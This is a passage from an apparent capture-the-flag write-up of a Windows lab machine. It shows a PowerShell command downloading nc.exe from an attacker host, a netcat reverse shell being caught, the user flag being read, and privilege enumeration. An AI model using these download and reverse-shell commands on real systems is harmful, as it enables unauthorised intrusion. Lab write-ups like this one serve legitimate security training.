 However, this is an unstable shell. What we will do is that we will upload nc.exe onto the server to create a reverse shell instead.

```
C:\xampp\htdocs\gym\upload> powershell.exe -command iwr -Uri http://10.10.16.3:3000/nc.exe -Outfile C:\xampp\htdocs\gym\upload\nc.exe
�PNG
```

### Obtaining reverse shell

```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.198] 49705
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

### Obtaining user flag

```
c:\Users\shaun\Desktop>type user.txt
type user.txt
<Redacted user flag>
```
### Enumeration of server for privilege escalation to SYSTEM
First, let us check the privileges that we have on the buff\shaun user. From the output, there are no privileges that we could exploit. 

```
C:\Windows\Temp>whoami /priv                                                                                                                                                                                        
whoami /priv                                                                                                                                                                                                        
                                                                                                                                                                                                                    
PRIVILEGES INFORMATION                                                                                                                                                                                              
----------------------                                                                                                                                                                                              
                                                                                                                                                                                                                    
Privilege Name                Description                          State                                                                                                                                            
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```
